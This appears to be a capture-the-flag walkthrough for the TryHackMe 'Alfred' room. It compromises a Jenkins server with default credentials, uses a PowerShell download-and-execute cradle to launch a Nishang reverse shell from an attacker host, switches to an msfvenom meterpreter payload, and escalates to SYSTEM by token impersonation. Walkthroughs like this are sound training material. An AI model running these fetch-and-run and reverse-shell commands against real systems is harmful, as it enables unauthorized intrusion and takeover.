 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444
```

**How many ports are open? (TCP only)**

```
nmap -A 10.10.98.134
```

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

```
rlwrap nc -lvnp 4444
```

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); 
Invoke-PowerShellTcp
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe
python2 -m SimpleHTTPServer 81
```

**Kali**&#x20;

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.135.134 
set LPORT 1337 
run
```

**Victim**&#x20;

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:81/shells.exe','shells.exe')"
Start-Process "shell.exe"
```

<figure><img src="../../.gitbook/assets/image (11) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

```
load incognito 
list_tokens -g
```

![](<../../.gitbook/assets/image (17) (1).png>)

```
impersonate_token "BUILTIN\Administrators" 
getuid
```

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

```
ps
migrate 668
```

<figure><img src="../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (1).png" alt=""><figcaption></figcaption></figure>

